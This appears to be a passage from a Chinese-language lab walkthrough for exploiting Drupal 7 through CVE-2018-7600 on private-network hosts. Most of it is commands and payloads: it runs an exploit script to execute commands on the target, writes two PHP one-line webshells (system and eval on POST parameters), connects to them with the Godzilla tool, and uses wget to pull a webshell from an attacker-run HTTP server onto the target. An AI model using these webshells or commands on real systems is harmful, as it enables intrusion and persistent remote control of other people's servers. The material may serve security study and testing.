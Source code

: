 ```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls

或者
python3 drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

即可执行ls读取文件

![image-20230628232052599](image-20230628232052599.png)



在当前目录写一个一句话木马

这里参考的moonsec的

moon.php

```
<?php system($_POST['moon']);?>
```

这里写自己的webshell

php.php

```
<?php @eval($_POST['qwer']);?>
```

后者可以通过菜刀之类的webshell工具进行连接

这里用哥斯拉进行连接

![image-20230628232108952](image-20230628232108952.png)

![image-20230628232130003](image-20230628232130003.png)



或者采用第一种(即moon的方式)进行反弹shell

然后在当前目录开启python自带的httpserver

python -m SimpleHTTPServer

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/moon.php"   
```

将php文件上传到靶机上

再使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

查看php木马是否上传成功
